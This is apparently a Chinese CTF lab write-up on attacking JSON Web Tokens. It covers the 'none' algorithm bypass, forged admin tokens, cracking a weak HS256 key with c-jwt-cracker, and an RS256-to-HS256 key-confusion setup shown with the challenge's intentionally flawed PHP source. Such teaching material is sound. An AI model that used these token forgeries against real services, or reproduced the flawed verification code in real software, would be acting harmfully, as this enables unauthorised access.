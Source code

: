 ## CTFHhub--JWT

[TOC]

### 敏感信息泄露

```
eyJBRyI6Ijk1MGZjYzJiZGQyZjQ0MX0iLCJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImJ4MzM2NjEiLCJwYXNzd29yZCI6InpieDEyMzQ1NiIsIkZMIjoiY3RmaHViezY3MjQ5YTA5ZCJ9.eNgGhgI2-Bf_txI0cGiS64HfDeErXt2p2mT5UA7E_zU
```

```
{"AG":"950fcc2bdd2f441}","typ":"JWT","alg":"HS256"}
{"username":"bx33661","password":"..........","FL":"ctfhub{67249a09d"}
```

得到flag

```
ctfhub{67249a09d950fcc2bdd2f441}
```



### 无签名

> 题目提示：
>
> 一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。尝试找到 flag。

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ.MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ
MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc
```

![image-20240827164720451](https://gitee.com/bx33661/image/raw/master/path/image-20240827164720451.png)

修改加密算法为`none`

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

修改权限为`admin`

```
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ
```

最后的构造：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ.
```

提交之后得到flag

```
Hello admin(admin), only admin can get flag.
ctfhub{72d9055351fb13a911387e5c}
```





### 弱密钥

> 对称密码

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ.7KnITDRIAh7AyiR7ZdoqZPI7Dm0FfucDxLD5DRvLDdU.
```

![image-20240827170321755](https://gitee.com/bx33661/image/raw/master/path/image-20240827170321755.png)

安装一个工具`c-jwt-cracker`

```bash
git clone https://github.com/brendan-rius/c-jwt-cracker.git
sudo apt install gcc
sudo apt install make
#确保你已经安装openssl
sudo apt-get update
sudo apt-get install libssl-dev

make


#使用
./jwtcrack token
```

![image-20240827163718735](https://gitee.com/bx33661/image/raw/master/path/image-20240827163718735.png)

![image-20240827163928848](https://gitee.com/bx33661/image/raw/master/path/image-20240827163928848.png)

得到密钥是mqwr,修改JWT后得到

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiYWRtaW4ifQ.aontCOVinnmKgiIxqni6kFwghAcXzjSyK9ayfwG7gBc
```

![image-20240827164106654](https://gitee.com/bx33661/image/raw/master/path/image-20240827164106654.png)

得到flag

```
ctfhub{d458c74724065f3a63099b1c}
```



### 修改签名算法

> 题目提示：
>
> 有些JWT库支持多种密码算法进行签名、验签。若目标使用非对称密码算法时，有时攻击者可以获取到公钥，此时可通过修改JWT头部的签名算法，将非对称密码算法改为对称密码算法，从而达到攻击者目的。

进入页面发现`publickey.pem`

```ABAP
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3/YJZ/OAQFDwtltlGrvn
wwRtvPixoZPTdkx7Nsn8bahOhOneb0IyrcznZbLomhaRZ2pHXOBgrtkOS8IWST9G
/06b+3n/TblGVj/ACXwPAeRzXSGuGzai+dxqLES2Xok+EBm8N0g90mB4yY9EFQc/
BCLFgnIc0Ylcx1ov+Ai9cJLCibbJtzM11p/I0oKBXBF4PjweCnL+gASO4mS+F+TR
1QcNE0uqd0GNCG+kMzBtGIiX+ulXawKOpyQY4PDc0y5yJHFL5+FX/QvbaOnmZ90K
da6JpXOAyO493ezEqLearwJalronv7vtDwksMvJSExlYGxrvk0nT7Xm6M6ufjdBF
rwIDAQAB
-----END PUBLIC KEY-----
```

下面一行本环境的源码

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <title>CTFHub JWTDemo</title>
        <link rel="stylesheet" href="/static/style.css" />
    </head>
    <body>
        <main id="content">
            <header>Web Login</header>
            <form id="login-form" method="POST">
                <input type="text" name="username" placeholder="Username" />
                <input type="password" name="password" placeholder="Password" />
                <input type="submit" name="action" value="Login" />
            </form>
            <a href="/publickey.pem">publickey.pem</a>
        </main>
        <?php echo $_COOKIE['token'];?>
        <hr/>
    </body>
</html>

<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;

class JWTHelper {
  public static function encode($payload=array(), $key='', $alg='HS256') {
    return JWT::encode($payload, $key, $alg);
  }
  public static function decode($token, $key, $alg='HS256') {
    try{
            $header = JWTHelper::getHeader($token);
            $algs = array_merge(array($header->alg, $alg));
      return JWT::decode($token, $key, $algs);
    } catch(Exception $e){
      return false;
    }
    }
    public static function getHeader($jwt) {
        $tks = explode('.', $jwt);
        list($headb64, $bodyb64, $cryptob64) = $tks;
        $header = JWT::jsonDecode(JWT::urlsafeB64Decode($headb64));
        return $header;
    }
}

$FLAG = getenv("FLAG");
$PRIVATE_KEY = file_get_contents("/privatekey.pem");
$PUBLIC_KEY = file_get_contents("./publickey.pem");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!empty($_POST['username']) && !empty($_POST['password'])) {
        $token = "";
        if($_POST['username'] === 'admin' && $_POST['password'] === $FLAG){
            $jwt_payload = array(
                'username' => $_POST['username'],
                'role'=> 'admin',
            );
            $token = JWTHelper::encode($jwt_payload, $PRIVATE_KEY, 'RS256');
        } else {
            $jwt_payload = array(
                'username' => $_POST['username'],
                'role'=> 'guest',
            );
            $token = JWTHelper::encode($jwt_payload, $PRIVATE_KEY, 'RS256');
        }
        @setcookie("token", $token, time()+1800);
        header("Location: /index.php");
        exit();
    } else {
        @setcookie("token", "");
        header("Location: /index.php");
        exit();
    }
} else {
    if(!empty($_COOKIE['token']) && JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY) != false) {
        $obj = JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY);
        if ($obj->role === 'admin') {
            echo $FLAG;
        }
    } else {
        show_source(__FILE__);
    }
}
?>
```

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6Imd1ZXN0In0.wVLgMjzI-NnAeVTL4aMLuARJPJsizGuJc6wbP3dq5ExxlciEgcC3Ln2TU7pxSo8MV-MiofGd6lrBDXsBwTRUly4FiiMN1fOjRRQNZtVV4oEc1l9u21PxZt94uiMgePVK2U1nIqBZnl50HqCzqq4KH5M7zJiLKBBuYa9qr7y3uFmJYWIN2xKmi9xmQg1Ax2wnoGbXbtQWzex9mZ8nLjAWhulnhHbUlpYkiIKemoh23tR0PHbYlHxjAkQQdLJbxYv4RDMx80wrGHbbhSRRjn9_9ZVp06coL37VXr2heDokutzl_-5iFtPV51vJLMzBWyx4NUqELjzlW45GF1LXuPhcSg
```

![image-20240827170553593](https://gitee.com/bx33661/image/raw/master/path/image-20240827170553593.png)







资源来自：

https://www.nonevector.top/posts/17.html#3-JSON-Web-Token
